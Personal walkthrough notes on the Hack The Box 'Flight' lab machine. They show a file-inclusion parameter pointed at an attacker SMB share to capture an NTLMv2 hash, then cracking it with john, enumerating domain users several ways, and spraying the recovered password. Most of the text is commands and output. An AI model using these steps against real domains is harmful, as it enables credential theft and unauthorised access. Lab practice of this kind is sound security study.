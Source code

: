 * https://rootjaxk.github.io/posts/Flight/

# I read the writeup before doing the box
So, I kind of remerber the very start

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://$IP -H 'Host: FUZZ.flight.htb' -fw 1546

school                  [Status: 200, Size: 3996, Words: 1045, Lines: 91, Duration: 158ms]
```

* `C:\windows\system32\drivers\etc\hosts`
* `c:/windows/system32/dirvers/etc/hosts`
* and nc listener worked. Unfortunately, its the text of the file, not processed as PHP. The source must be using `file_get_contents` to load the contents, not `include`.
* `http://school.flight.htb/index.php?view=//10.10.16.2/as`

```bash
sudo responder -I tun0
Or
impacket-smbserver as . -smb2support
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.56.122,54136)
[*] AUTHENTICATE_MESSAGE (flight\svc_apache,G0)
[*] User G0\svc_apache authenticated successfully
[*] svc_apache::flight:aaaaaaaaaaaaaaaa:b628bb1102f62bfa5e3fcab65df46e20:010100000000000080a66a7a592dda018cf9e7dc35b108d900000000010010007500500067004a0057007a0063007500030010007500500067004a0057007a0063007500020010006e006900750048006900410046004e00040010006e006900750048006900410046004e000700080080a66a7a592dda010600040002000000080030003000000000000000000000000030000075261d057ff0f7e9c43f561429a3abc8f58ee7b3a6e0c7317cc9955fa53463d00a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e0032000000000000000000

john --wordlist=/usr/share/wordlists/rockyou.txt svc_apache.hash

S@Ss!K@*t13      (svc_apache)     

crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13'
SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         flight.htb      445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 

crackmapexec winrm flight.htb -u svc_apache -p 'S@Ss!K@*t13'
SMB         flight.htb      5985   G0               [*] Windows 10.0 Build 17763 (name:G0) (domain:flight.htb)
HTTP        flight.htb      5985   G0               [*] http://flight.htb:5985/wsman
WINRM       flight.htb      5985   G0               [-] flight.htb\svc_apache:S@Ss!K@*t13

export IP=10.129.56.122
smbclient -L $IP -U=svc_apache%'S@Ss!K@*t13'

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        Shared          Disk      
        SYSVOL          Disk      Logon server share 
        Users           Disk      
        Web             Disk      
```

crackmapexec shows the shares, including the standard administrative shares (ADMIN$, C$, and IPC$), the standard shares for a Windows DC (NETLOGON and SYSVOL), and three nonstandard shares (Shared, Users, and Web).

# Auth as S.Moon
## Password Spray
since I saw there is another user `C.BUM`
### Build a user list. SO many ways
1. crackmapexec

```bash
crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --shares
SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         flight.htb      445    G0               [+] flight.htb\svc_apache:S@Ss!K@*t13 
SMB         flight.htb      445    G0               [+] Enumerated shares
SMB         flight.htb      445    G0               Share           Permissions     Remark
SMB         flight.htb      445    G0               -----           -----------     ------
SMB         flight.htb      445    G0               ADMIN$                          Remote Admin
SMB         flight.htb      445    G0               C$                              Default share
SMB         flight.htb      445    G0               IPC$            READ            Remote IPC
SMB         flight.htb      445    G0               NETLOGON        READ            Logon server share 
SMB         flight.htb      445    G0               Shared          READ            
SMB         flight.htb      445    G0               SYSVOL          READ            Logon server share 
SMB         flight.htb      445    G0               Users           READ            
SMB         flight.htb      445    G0               Web             READ            
crackmapexec smb flight.htb -u svc_apache -p 'S@Ss!K@*t13' --users > crackmapexec.users
```

2. Impacket GetADUsers
```bash
impacket-GetADUsers -all -dc-ip flight.htb flight.htb/svc_apache:'S@Ss!K@*t13' | cut -d " " -f 1 | grep -Ev 'Name|Impacket|\-\-|\[' > impacket.users
```

3. Impacket lookupsid
It is okish but much slower than the others
```bash
impacket-lookupsid flight.htb/svc_apache:'S@Ss!K@*t13'@flight.htb | grep SidTypeUser | cut -d' ' -f 2 | cut -d'\' -f 2 | tee lookupsid.users
```

4. rpcclient
```bash
rpcclient --user=svc_apache%'S@Ss!K@*t13' $IP
rpcclient $> enumdomains
name:[flight] idx:[0x0]
name:[Builtin] idx:[0x0]
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[S.Moon] rid:[0x642]
user:[R.Cold] rid:[0x643]
user:[G.Lors] rid:[0x644]
user:[L.Kein] rid:[0x645]
user:[M.Gold] rid:[0x646]
user:[C.Bum] rid:[0x647]
user:[W.Walker] rid:[0x648]
user:[I.Francis] rid:[0x649]
user:[D.Truff] rid:[0x64a]
user:[V.Stevens] rid:[0x64b]
user:[svc_apache] rid:[0x64c]
user:[O.Possum] rid:[0x64d]
```

5. windpsearch
Downside is the weird naming convention
```bash
/home/alvin/Tools/Windows/AD/windapsearch/windapsearch.py -d flight.htb -u 'flight\svc_apache' -p 'S@Ss!K@*t13' --dc-ip $IP --full -U | grep sAMAccountName | cut -d' ' -f 2 > windsearch.users
```

6. ldapsearch
Similar to windpsearch, but it found `G0$` just like lookupsid
```bash
ldapsearch -H ldap://flight.htb -x -b "dc=flight,dc=htb" -D "flight\svc_apache" -w 'S@Ss!K@*t13' -s sub "(&(objectClass=user))" | grep sAMAccountName | cut -d' ' -f 2 > ldapsearch.users
```

### Spray
##### crackmapexec
```bash
crackmapexec smb flight.htb -u ldapsearch.users -p 'S@Ss!K@*t13' --continue-on-success
SMB         flight.htb      445    G0               [*] Windows 10.0 Build 17763 x64 (name:G0) (domain:flight.htb) (signing:True) (SMBv1:False)
SMB         flight.htb      445    G0               [-] flight.htb\Administrator:S@Ss!K@*t13 STATUS_LOGON_FAILURE
SMB         flight.htb      445    G0               [+] flight.htb\S.Moon:S@Ss!K@*t13
```

##### Kerbrute
```bash
 ~/kerbrute/kerbrute-arm64 passwordspray -d flight.htb --dc $IP ldapsearch.users 'S@Ss!K@*t13'

2023/12/13 18:29:02 >  Using KDC(s):
2023/12/13 18:29:02 >   10.129.56.122:88

2023/12/13 18:29:03 >  [+] VALID LOGIN WITH ERROR:       S.Moon@flight.htb:S@Ss!K@*t13   (Clock skew is too great)
2023/12/13 18:29:03 >  [+] VALID LOGIN WITH ERROR:       svc_apache@flight.htb:S@Ss!K@*t13       (Clock skew is too great)
```

Weird thing is that my `~/go/bin/kerbrute` doesn't work for it.

